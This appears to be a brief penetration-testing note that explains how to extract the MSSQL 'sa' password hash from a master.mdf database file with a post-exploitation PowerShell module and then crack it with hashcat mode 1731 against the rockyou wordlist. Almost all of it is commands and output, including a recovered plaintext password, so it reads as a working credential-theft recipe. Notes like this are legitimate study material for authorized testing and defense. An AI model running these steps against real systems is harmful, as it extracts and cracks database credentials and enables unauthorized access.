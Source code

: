 # Master MDF Hash Extraction

[https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

```
git clone https://github.com/xpn/Powershell-PostExploitation.git
```

```
Editing the file, 2 line to correct directory for dlls.

Import-Module .\Get-MDFHashes.ps1

Get-MDFHashes -mdf "C:\Users\Administrator\Desktop\master.mdf"
sa                             0x.......
```

Cracking.

https://hashcat.net/wiki/doku.php?id=example\_hashes

1731 - MSSQL (2012, 2014) - MATCH!

```
hashcat -m 1731 -a 0 hash.txt rockyou.txt --force
sa - password1
```
